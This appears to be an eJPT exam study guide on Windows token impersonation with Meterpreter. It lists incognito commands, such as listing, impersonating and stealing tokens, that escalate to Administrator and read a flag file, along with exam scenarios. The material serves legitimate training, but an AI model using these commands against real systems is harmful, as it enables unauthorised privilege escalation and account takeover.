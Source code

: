 #### **Level 1 - Guaranteed to Appear (100% Chance):**
```bash
# Load incognito after gaining meterpreter
load incognito
# Expected: "Loading extension incognito ... Success."

# List available tokens
list_tokens -u
# Expected: Shows delegation and impersonation tokens

# Check current user privileges
getuid
# Expected: Shows current user context
```

#### **Level 2 - Very Likely (85% Chance):**
```bash
# Impersonate administrator token
impersonate_token DOMAIN\\Administrator
# Expected: "Successfully impersonated user" message

# Verify privilege escalation
getuid
# Expected: New user context (Administrator)

# Access protected files to prove escalation
cat C:\\Users\\Administrator\\Desktop\\flag.txt
# Expected: File contents or flag value
```

#### **Level 3 - Possible (60% Chance):**
```bash
# Return to original token context
rev2self
# Expected: Reverts to original user token

# Steal token from specific process
steal_token [PID]
# Expected: Token stolen from target process

# List tokens by group membership
list_tokens -g
# Expected: Tokens organized by Windows groups
```

### **🎯 Common eJPT Exam Scenarios:**

#### **Scenario 1: Basic Token Impersonation**
**Given:** Meterpreter session with LOCAL SERVICE privileges
**Your Job:** Escalate to Administrator and read flag file
**Time Limit:** 6-8 minutes
